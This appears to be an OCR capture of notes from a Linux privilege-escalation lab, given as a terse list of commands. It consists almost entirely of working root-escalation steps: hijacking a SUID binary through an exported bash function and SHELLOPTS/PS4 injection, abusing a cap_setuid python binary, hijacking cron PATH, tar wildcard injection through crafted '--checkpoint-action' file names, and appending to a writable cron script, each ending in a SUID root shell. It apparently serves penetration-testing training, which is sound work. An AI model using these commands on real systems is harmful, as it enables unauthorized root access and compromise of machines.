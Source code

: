 Exploitation Method #1

function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
type: /usr/local/bin/suid-env2

Exploitation Method #2

type: env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'

######################################################################
(capabilities)

type: getcap -r / 2>/dev/null
2. From the output, notice the value of the “cap_setuid” capability.

type: /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'

######################################################################
(cron path)

type: cat /etc/crontab
notice the value of the “PATH” variable.

type: echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
wait 1 min
/tmp/bash -p

######################################################################
(cron wildcards)

type: cat /etc/crontab
notice the script “/usr/local/bin/compress.sh”
type: cat /usr/local/bin/compress.sh
notice the wildcard (*) used by ‘tar’.

Exploitation

Linux VM

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
wait 1 min
/tmp/bash -p

######################################################################
Cron (File Overwrite)

1. In command prompt type: cat /etc/crontab
2. From the output, notice the script “overwrite.sh”
3. In command prompt type: ls -l /usr/local/bin/overwrite.sh
notice the file permissions.

1. In command prompt type:
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
2. Wait 1 minute for the Bash script to execute.
3. In command prompt type: /tmp/bash -p
4. In command prompt type: id

